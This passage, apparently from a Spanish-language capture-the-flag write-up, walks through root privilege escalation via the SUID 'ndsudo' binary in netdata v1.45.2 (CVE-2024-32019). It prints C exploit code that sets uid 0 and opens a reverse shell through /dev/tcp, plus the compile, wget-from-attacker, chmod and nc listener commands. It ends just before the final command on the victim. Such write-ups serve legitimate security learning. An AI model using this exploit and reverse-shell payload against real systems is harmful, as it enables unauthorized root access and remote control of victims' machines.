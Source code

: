 URL = [Vuln netdata v1.45.2](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)

Si leemos veremos que hay un archivo el cual es el vulnerable llamado `ndsudo` del que hablan y si nos fijamos antes descubrimos ese binario en el `find`.

```
-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

Vemos que tiene permisos `SUID`, por lo que tambien es bastante interesante, investigando un poco mas de que podemos hacer con dicho binario podremos ver el siguiente `PoC` en este repositorio.

URL = [CVE-2024-32019 - PoC](https://github.com/AliElKhatteb/CVE-2024-32019-POC)

Vemos que primero crea un `exploit.c` de esta forma en la maquina `host`:

```c
#include <unistd.h>  // for setuid, setgid, execl
#include <stddef.h>  // for NULL

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1", NULL);
    return 0;
}
```

Despues lo compila de esta forma con este nombre.

```shell
x86_64-linux-gnu-gcc -o nvme exploit.c -static
```

Echo esto abriremos un servidor de `python3` para pasarnos el binario vulnerable.

```shell
python3 -m http.server 80
```

En la maquina victima haremos esto para descargarnos dicho binario en la carpeta `/tmp`.

```shell
cd /tmp
wget http://<IP_ATTACKER>/nvme
```

Cuando lo tengamos le daremos permisos de ejecuccion:

```shell
chmod +x nvme
```

Ahora nos pondremos a la escucha como lo hayamos configurado en el `exploit.c`:

```shell
nc -lvnp <PORT>
```

Y en la maquina victima tendremos que ejecutar el siguiente comando:

